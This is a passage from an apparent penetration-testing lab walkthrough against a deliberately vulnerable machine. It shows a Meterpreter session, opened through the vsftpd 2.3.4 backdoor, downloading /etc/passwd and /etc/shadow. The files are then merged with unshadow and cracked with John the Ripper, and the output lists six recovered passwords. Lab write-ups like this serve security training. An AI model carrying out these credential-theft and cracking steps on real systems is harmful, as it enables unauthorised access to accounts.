 #### Password Cracking the Local System Accounts

This allowed me to connect to the system via meterpreter, and download the `/etc/passwd` and `/etc/shadow` files:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> passwd
[*] Downloaded 1.54 KiB of 1.54 KiB (100.0%): /etc/passwd -> passwd
[*] download   : /etc/passwd -> passwd
meterpreter > download /etc/shadow
[*] Downloading: /etc/shadow -> shadow
[*] Downloaded 1.18 KiB of 1.18 KiB (100.0%): /etc/shadow -> shadow
[*] download   : /etc/shadow -> shadow
```

Which I was then able to combine using the `unshadow` command, and crack using John the Ripper:

```
root@kali:~# unshadow passwd shadow > target_unshadowed.txt

root@kali:~# john target_unshadowed.txt
Created directory: /root/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
postgres         (postgres)
user             (user)
msfadmin         (msfadmin)
service          (service)
123456789        (klog)
batman           (sys)
6g 0:00:01:22  3/3 0.07256g/s 40533p/s 40534c/s 40534C/s juadlyf..juadlin
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

root@kali:~# john --show
Password files required, but none specified

root@kali:~# john --show target_unshadowed.txt
sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash

6 password hashes cracked, 1 left
```
